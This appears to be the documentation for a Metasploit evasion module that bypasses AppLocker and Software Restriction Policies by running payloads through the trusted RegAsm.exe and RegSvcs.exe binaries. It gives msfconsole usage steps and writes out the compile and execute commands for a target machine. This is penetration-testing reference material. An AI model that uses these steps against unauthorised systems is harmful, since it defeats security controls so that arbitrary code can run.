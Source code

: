 ## Introduction

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binaries RegAsm.exe or RegSvcs.exe to execute user supplied code as these binaries are located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block RegAsm.exe, RegSvcs.exe or the "Microsoft.Net" directory.

## Options

- **TXT_FILE** - Filename for the evasive file (default: regasm_regsvcs.txt).
- **SNK_FILE** - Filename for the .snk file (default: key.snk). (note: to aid further evasion it is recommended to create your own .snk file ref: https://docs.microsoft.com/en-us/dotnet/framework/app-domains/how-to-sign-an-assembly-with-a-strong-name)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_regasm_regsvcs`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] regasm_regsvcs.txt stored at /root/.msf4/local/regasm_regsvcs.txt`
  7. `[+] key.snk stored at /root/.msf4/local/key.snk`
  8. `[*] Copy regasm_regsvcs.txt and key.snk to the target`
  9. `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regasm_regsvcs.dll /keyfile:key.snk regasm_regsvcs.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  10. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regsvcs.exe regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  11. `[*] or`
  12. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regasm.exe /U regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1121/
